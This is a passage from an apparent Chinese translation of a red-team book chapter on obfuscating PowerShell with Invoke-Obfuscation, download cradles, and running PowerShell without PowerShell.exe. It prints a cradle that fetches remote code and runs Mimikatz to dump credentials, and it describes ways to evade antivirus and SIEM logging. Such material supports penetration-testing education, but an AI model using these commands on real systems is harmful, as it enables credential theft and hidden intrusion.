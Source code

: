 
通过 `Invoke-Obfuscation` 混淆框架，我们可以使用以下几种不同的技术对这个字符串进行深度混淆：
* 在 Windows 上，下载用于 Invoke-Obfuscation 的 PowerShell 文件（ https://github.com/danielbohannon/Invoke-Obfuscation ）
* 加载 PowerShell 脚本并启动 Invoke-Obfuscation
    * Import-Module ./Invoke-Obfuscation.psd1 
    * Invoke-Obfuscation
* 设置要混淆的 PowerShell 脚本。在这个例子中，我们将混淆上面的 Mimikatz 哈希值下载转储脚本
    * SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2JHVdzf’); Invoke-Mimikatz -DumpCreds
* 对 payload 进行编码
    * ENCODING
* 在这个例子中，我选择了 SecureString（AES），但你可以把所有这些混淆技术都试一试。

![](img/chapter_7/7-8.png)

混淆后的字符串包含一个随机生成的密钥和一个加密的安全字符串。在管理员权限下运行 PowerShell，我们仍然可以执行完整的 payload。

![](img/chapter_7/7-9.png)

我们也可以回到主屏幕并创建混淆的 launcher：
* main 
* launcher 
* CLIP++
* 选择你的执行 flag

![](img/chapter_7/7-10.png)

更棒的是，查看 Windows PowerShell 日志我们会发现，如果脚本是混淆的，日志中也仅仅是记录了混淆后的东西。这个特性可以帮助我们躲避杀毒软件和 SEIM 警报工具。

![](img/chapter_7/7-11.png)

除了 Invoke-Obfuscation 之外，Daniel 还创建了一个名为 [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter) 的工具，该工具专注于远程下载 cradle，是一个 PowerShell 2.0+ 版本兼容的 PowerShell 远程下载 cradle 生成器和混淆器。Invoke-CradleCrafter 的 github README 文档中介绍说，“Invoke-CradleCrafter 的存在是为了帮助蓝队和红队轻松探索、生成和混淆 PowerShell 远程下载 cradle。此外，它可以帮助蓝队测试环境检测的有效性。Invoke-CradleCrafter 可以检测 Invoke-Obfuscation 产生的输出，但是在处理 Invoke-CradleCrafter 时可能会失败，因为它不包含任何字符串拼接、编码、复选标记、类型转换等”。

> 译者注: 什么是 **cradle**？<br>
> 一个 `download cradle`（下载 cradle）是一个用于下载和代码执行的单行命令。通常可以在 maldoc 或 exploit 的末尾看到，执行攻击生命周期中第二阶段的exploit/infection 下载。在某些情况下，比如攻击者运行无文件时，一个下载 cradle 也可以是其他攻击阶段的持久性机制、工具或执行的一部分。<br>
> 参考资料：[Powershell Download Cradles](https://mgreen27.github.io/posts/2018/04/02/DownloadCradle.html)

## 不使用 PowerShell.exe 执行 PowerShell 脚本
你最终在一个目标机器上找到了远程代码执行漏洞，但是你发现无法运行 PowerShell.exe 或该公司正在监视 PowerShell.exe 的命令。有哪些选项可以让你的 PowerShell payload 或 C2 代理在该主机系统上运行？

**NoPowerShell（NPS)**

我喜欢 NoPowerShell 或 NPS 的概念。NPS 是一个 Windows 二进制文件，它通过 .Net 执行 PowerShell 脚本，而不是直接调用 PowerShell.exe。虽然现在杀毒软件通常会标记这一点，但我们可以使用相同的概念来创建二进制文件，以直接执行我们的 PowerShell 恶意软件而无需 PowerShell.exe。Ben0xA 已经为你提供了源代码 ，因此请随意尝试对二进制文件进行混淆处理以解决杀毒软件的绕过问题。
